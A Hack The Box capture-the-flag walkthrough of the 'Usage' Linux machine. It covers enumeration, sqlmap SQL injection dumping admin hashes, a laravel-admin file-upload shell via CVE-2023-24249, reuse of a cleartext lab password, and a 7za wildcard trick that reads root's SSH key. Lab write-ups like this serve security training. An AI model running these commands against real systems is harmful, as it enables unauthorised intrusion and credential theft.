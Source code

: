 | Name            | Usage                                                                                                                |
| --------------- | -------------------------------------------------------------------------------------------------------------------- |
| Platform        | HTB                                                                                                                  |
| Difficulty      | Easy                                                                                                                 |
| OS              | Linux                                                                                                                |
| Used techniques | sudomain enumeration,  SQLi, crack hashes, File Upload attack, credentials finding, reverse, wildcards spare tricks. |
| Technologies    | Laravel, Laravel-admin                                                                                               |
| Tools           | gobuster,  BurpSuite, sqlmap, nc, strings                                                                            |
| CVEs            | cve-2023-24249                                                                                                       |

## Enumeration

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 16:39 CEST
Nmap scan report for 10.10.11.18
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.80 seconds
```

Important information to be extracted: nginx server, usage.htb as domain.

```bash
http://usage.htb [200 OK] Bootstrap[4.1.3], Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[laravel_session], IP[10.10.11.18], Laravel, PasswordField[password], Title[Daily Blogs], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```



Inspecting the web site, we can only see that we can register as users and log in. Once logged in, there is no vector that can serve us as an attack vector. It should be some directory or subdomain not enumerated. 

### Directories

Apart from spidering the website, there is no extra directories found:


``` bash
gobuster dir -u usage.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --exclude-length 206
```
/login
/registration
/reset-password


### subdomains
```bash
ffuf -u http://usage.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host: FUZZ.usage.htb' -fs 178
```

==admin.usage.htb==
+/admin
+/uploads


We find also one admin panel endpoint. The use of default credentials does not work. The first idea is that we have to use some kind of credential or token taken from the home page or some injection that we have not yet tested.


## Foothold

Possible SQLi on /reset-password. It gave us an 500 code error after injecting single quote.

![Step](img/Pasted image 20240704174137.png)


We found one table with users, it may contain some valid credentials that may be used in the admin panel.

![Step](img/Pasted image 20240705063748.png)



`hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt`
`hashcat -a 0 -m 3200 hashes --show`

This ended up going down a rabbit hole. No credentials have been of any use to us. The credentials that will give us access can be found in table *admin_users*:

The web is implementing some security measures against excessive requests, so let's calibrate the sqlmap command well.

```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch --dbs --threads 10

sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog ---tables --threads 10

sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users --columns --threads 10

sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C name,username,password --threads 10
```


```bash 
Administrator | admin    | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
``` 

Valid credentials found and used on admin panel.

![Step](img/Pasted image 20240705170047.png)

List of the version is listed on the dashboard, so it is easy to check that there is a vulnerable version: *encore/laravel-admin 1.8.17*.

This version is vulnerable to cve-2023-24249, which consists in a File Upload vulnerability. We can bypass the image upload easily, just changing the extension. The way to go is, first we have to upload *shell.jpg* (shell.php with extension changed). After success, upload again and catch the request, this time we have to add .*php* (shell.jpg.php). Once we have prepared our listener, try to download the image.

![Step](img/Pasted image 20240705173125.png)

![Step](img/Pasted image 20240705173033.png)

## Lateral Movement

After foodhold, we see that there is just one more user called **xander**. On the same folder, we find one hidden file (*/.monitrc*) with credentials with can spray with. It worked to change user to xander.


![Step](img/Pasted image 20240705174544.png)

```bash
allow admin:3nc0d3d_pa$$w0rd
```

```xander:3nc0d3d_pa$$w0rd```


## Privilege Escalation

As xander we can use sudo with the following command:

```bash
sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```
![Step](img/Pasted image 20240705222931.png)

Once we play with it a little bit, it looks like it creates some backup's files. We can inspect if there are hidden credentials or something exploitable.

```strings /usr/bin/usage_management```


![Step](img/Pasted image 
20240705223124.png)

We see one line with a \*, that may lead to a wildcard hack. If we do some research, we find that it is in fact a **7za wildcard spare** . It gives us local file inclusion. One way to get root is to find the corresponding ssh key:

```  bash
cd /var/www/html  
touch @id_rsa  
ln -s /root/.ssh/id_rsa id_rsa  
sudo /usr/bin/usage_management
```

We are root it.

#### Developed map
![Step](img/UsageTree.png)


#### Sources

https://flyd.uk/post/cve-2023-24249/
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks
